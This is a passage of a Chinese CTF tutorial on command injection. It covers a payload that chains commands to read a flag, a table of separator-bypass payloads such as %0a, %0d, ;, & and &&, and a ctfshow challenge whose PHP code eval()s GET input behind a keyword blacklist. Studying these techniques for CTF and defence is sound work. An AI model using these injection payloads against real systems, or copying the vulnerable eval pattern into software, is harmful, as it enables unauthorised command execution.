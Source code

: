 采用多个管道命令即可

```bash
;cd flag_is_here;cat *
1
```

![在这里插入图片描述](https://img-blog.csdnimg.cn/20200729225813622.png)





------

##### 0x04 过滤分隔符 | & ;

1，可以使用`%0a`代替，%0a其实在某种程度上是最标准的命令链接符号

| 功能     | 符号     | payload       |
| -------- | -------- | ------------- |
| 换行符   | %0a      | ?cmd=123%0als |
| 回车符   | %0d      | ?cmd=123%0dls |
| 连续指令 | ;        | ?1=123;pwd    |
| 后台进程 | &        | ?1=123&pwd    |
| 管道     | \|       | ?1=123\|pwd   |
| 逻辑运算 | \|\|或&& | ?1=123&&pwd   |

```bash
;	//分号
|	//只执行后面那条命令
||	//只执行前面那条命令
&	//两条命令都会执行
&&	//两条命令都会执行
12345
```

2，`?>`代替`;`

在php中可以用`?>`来代替最后一个`;`因为php遇到定界符关闭标志时，系统会自动在PHP语句之后加上一个分号。
例题：ctfshow-web入门36

```bash
<?php
error_reporting(0);
if(isset($_GET['c'])){
    $c = $_GET['c'];
    if(!preg_match("/flag|system|php|cat|sort|shell|\.| |\'|\`|echo|\;|\(|\:|\"|\<|\=|\/|[0-9]/i", $c)){
        eval($c);
    }
}else{
    highlight_file(__FILE__);
}
12345678910
```
